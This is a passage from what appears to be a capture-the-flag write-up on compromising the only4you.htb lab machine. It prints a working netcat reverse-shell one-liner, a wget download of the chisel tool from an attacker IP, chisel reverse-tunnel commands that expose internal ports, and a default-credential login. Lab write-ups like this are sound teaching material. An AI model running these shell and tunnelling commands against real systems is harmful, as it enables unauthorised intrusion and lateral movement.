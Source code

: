 To exploit it, a netcat reverse shell will be used ``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-ADDRESS> <ListenPort> >/tmp/f ```.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/10199f82-af08-4d2e-b764-ca13dd21a9b3)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/b0c6be50-2e45-4cea-9518-ace7da72400c)

Once in the shell, machine connection state is checked using netcat. It turns out that there are some interesting listening ports: 3000, 7474, 7687, 8001, 33060.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ecf1f763-cad3-4416-99e3-0a8df07c6141)

Ports 7474 and 7687 are the default Neo4J Database listening ports and 33060 is the default MySQL listening port. As shown in the pictures, user dev is the owner of the other two listening ports’ process.

To check this, it is necessary to use port forwarding technique and as there are no available SSH credentials, “chisel” tool will be used. 

I will use two Basic Server Listener in order to forward the traffic generated from the attacking machine to 3000 and 8001 ports in localhost. Here, I setup the chisel server on the attacker machine and allow reverse tunnels to be created from the client. After transferring chisel binary to the victim with ```wget http;//10.10.14.26:8000/chisel``` and allowing it to execute with ```chmod +x /tmp/chisel```

Commands on attacking machine:

  •	``` ./chisel server -p 8888 --reverse ```
      
  •	``` ./chisel server -p 6666 --reverse ```

Commands on only4you.htb:

  •	``` ./chisel client attacking-ip:8888 R:8989:localhost:8001 ```

  •	``` ./chisel client attacking-ip:6666 R:6767:localhost:3000 ```

After this, I am able to interact with the applications graphically in my browser accessing localhost:8989 and localhost:6767.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/68bd4b7e-e7e5-4dfb-96bb-481d3e2278d0)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/bd18d4b3-3f58-4434-a8ac-6600c1e792b2)

Port 3000 app is Gogs, and port 8001 is a proprietary one called Only4You. Both of them have login pages and as with every login page found, usual default credentials are tested on both login pages. Surprisingly, “admin:admin” let me in on Only4You app (port 8001).

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/5cfb9dd8-f2c9-488c-a220-b71d59249fe3)

App dashboard shows graphics related to the user behaviour and email statistics.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/948ea900-df03-4cf0-b07a-c8370c820bf2)

Inspecting the web functionalities, it is found that it has a search tool that let the user look up employee information.

